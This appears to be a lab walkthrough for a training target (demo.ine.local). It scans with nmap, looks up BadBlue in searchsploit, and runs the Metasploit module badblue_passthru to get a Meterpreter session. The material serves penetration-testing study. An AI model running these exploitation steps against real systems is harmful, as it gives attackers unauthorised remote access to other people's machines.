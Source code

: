 
#### 1. Scanning the Target

First, we need to scan the target system to identify open ports and services:

```bash
nmap -sV demo.ine.local
```

- **Explanation**: This command performs a version scan (`-sV`) on the target IP (`demo.ine.local`), helping us identify services that may have vulnerabilities.

---

#### 2. Identifying Vulnerabilities

Next, we search for any vulnerabilities associated with the identified services:

```bash
searchsploit BadBlue
```

- **Explanation**: `searchsploit` is used to find known exploits in the Exploit Database. Here, we're looking for vulnerabilities related to the **BadBlue** web server.

---

#### 3. Setting Up the Exploit

Launch Metasploit to exploit the identified vulnerability:

```bash
msfconsole
```

Search for the BadBlue exploit:

```bash
search BadBlue
```

Use the appropriate exploit:

```bash
use exploit/windows/http/badblue_passthru
```

Display the options for the exploit:

```bash
show options
```

Configure the exploit and run it:

```bash
run
```

- **Outcome**: If successful, this will establish a Meterpreter session, providing us with remote access to the target system.

---
